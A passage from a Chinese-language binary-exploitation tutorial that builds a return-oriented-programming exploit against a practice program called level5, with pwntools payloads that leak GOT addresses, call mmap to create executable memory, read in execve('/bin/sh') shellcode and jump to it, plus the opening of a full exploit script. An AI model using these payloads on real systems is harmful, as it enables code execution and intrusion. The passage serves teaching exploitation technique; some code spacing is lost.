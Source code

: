 我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的`_dl_runtime_resolve`中的通用gadgets泄露出`got_write`和`_dl_runtime_resolve`的地址。

```
#!python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```

随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

```
#!python
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

shellcode_addr = 0xbeef0000

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

payload3 += p64(shellcode_addr)
```

然后我们利用`_dl_runtime_resolve`里的通用gadgets调用`mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)`,开辟一段RWX的内存在`0xbeef0000`处。随后我们使用`read(rdi=0, rsi=shellcode_addr, rdx=1024)`,把我们想要执行的shellcode读入到`0xbeef0000`这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

完整的exp8.py代码如下:

```
#!python
#!/usr/bin/env python
frompwn import *    

elf = ELF('level5')
libc = ELF('libc.so.6') 

p = process('./level5')
#p = remote('127.0.0.1',10001)  

got_write = elf.got['write']
print "got_write: " + hex(got_write)
```